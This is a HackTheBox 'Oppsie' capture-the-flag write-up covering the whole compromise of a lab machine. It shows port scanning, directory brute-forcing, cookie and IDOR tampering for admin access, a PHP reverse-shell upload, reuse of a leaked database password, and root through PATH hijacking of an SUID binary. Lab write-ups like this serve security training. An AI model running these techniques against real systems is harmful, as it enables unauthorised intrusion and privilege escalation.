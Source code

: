 # HACKTHEBOX - Oppsie

## Enumeration:
```bash
alias rustscan='sudo docker run -it --rm --name rustscan rustscan/rustscan'
rustscan -a $IP --greppable # [22,80]

sudo nmap -v -sV -sC -p 22,80 -o nmap.txt $IP # sudo for SYN Stealth Scan
```

**nmap results**:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Working with port 80:

Main page is a boring web template, nothing much to inspect. Let's brute-forcing web directory:
```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://$IP/
# /server-status --> 403 Forbidden
# /uploads --> 403 Forbidden
```

**Boring exploit to gain admin access**:
Duh!! try using crawler from Burp-Suite to build Site-Map(listening all traffic to build a map), found: `/cdn-cgi/login/`

Login as guest --> uploads --> This action require super admin 

Login as guest --> account --> ?content=accounts&id=2 = [2233]guest--> ?content=accounts&id=1 --> [34322]admin

check cookies --> user=2233 && role=guest--> user=34322 && role=admin

Upload php-reverse-shell.php --> trigger by `/uploads/php-reverse-shell.php` --> *reverse shell here!!*

Oldy upgrade normal shell to interactive shell!!
```bash
which python3 # yes
python3 -c "import pty; pty.spawn('/bin/bash')"
# Ctrl + z
stty -raw echo; fg
export TERM=xterm-256color
stty rows 40 columns 173
export SHELL=bash
```

From `/var/www/html/cdn-cgi/login/db.php`:
```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
Sweet, let's switch to `robert` account, `www-data` is lowest privilege account do you known
```bash
su robert
# Password: M3g4C0rpUs3r!
```
From `/home/robert/user.txt`:
**user flag**: `HTB{f2c74ee8db7983851ab2a96a44eXXXXX}` 

**find executable file bugtracker group**: `find / -group bugtracker -type f 2>/dev/null` --> `/usr/bin/bugtracker`
This also can be done by finding SUID file: `-perm u=s`

`/usr/bin/bugtracker` is SUID(set owner user id) by root 
```bash
/usr/bin/bugtracker
# Enter bug ID: 1000 --> error --> cat: /root/reports/10000 --> the executable being called in an insecure manner(not being called full path)

# Ok, let's manipulate $PATH variable to gain root access!
cd /tmp
cat "/bin/bash" > cat # spawn bash shell in root privileges!
export PATH=/tmp:$PATH
/usr/bin/bugtracker # Enter bug ID: 0
whoami # root
```

From `/root/root.txt`:
**root flag**: `HTB{af13b0bee69f8a877c3faf667f7XXXXX}`
